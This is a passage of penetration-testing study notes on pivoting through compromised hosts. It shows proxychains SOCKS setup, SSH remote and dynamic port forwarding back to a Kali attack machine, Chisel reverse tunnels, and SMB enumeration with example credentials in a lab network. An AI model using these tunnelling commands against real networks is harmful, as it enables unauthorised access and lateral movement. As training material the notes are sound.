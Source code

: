 ```zsh
socks5 192.168.50.63 9999
```
- After configuring we can use `proxychains` to push traffic through the tunnel
```zsh
proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
> [!IMPORTANT]
> If we are performing a portscan through an SSH tunnel, provide `-sT`  to perform a connect scan. Run the command with `sudo`! 
> `sudo proxychains nmap -vvv -sT -p4800-4900 Pn 172.16.237.217`
> If the scan takes too long consider lowering the **tcp_read_time_out** and **tcp_connect_time_out** values in the Proxychains configuration file `/etc/proxychains4.conf`


## SSH Remote Port Forwarding
- If we are not able to connect to a specific port we set up for tunneling, we can try remote port forwarding which will connect back to our attacking machine to set up the tunnel
- For this, we need to run an ssh server on our attacking machine
- The following scenario can be achieved by the `ssh` command below
![[Pasted image 20241211212807.png]]
```zsh
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```

## SSH Dynamic Remote Port Forwarding
- We will again set up a SOCK listener. The syntax this time is a bit different, if we just provide a port with the `-R` argument, `ssh` will automatically assume dynamic remote port forwarding
- The following scenario can be achieve by the `ssh` command below
![[Pasted image 20241211213016.png]]
```zsh
ssh -N -R 9998 kali@192.168.118.4
```
- We again need to configure `proxychains`
```zsh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```
- After configuring, use `proxychain` to push traffic through the tunnel
```zsh
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```

# Chisel
- We can use chisel to set up port forwarding through HTTP
- We set up a chisel server on our attack machine
```zsh
./chisel server -p 8080 --reverse
```
- To connect from our target 
```powershell
./chisel.exe client 192.168.45.232:8080 R:<localport>:<target-ip>:<target-port>
```
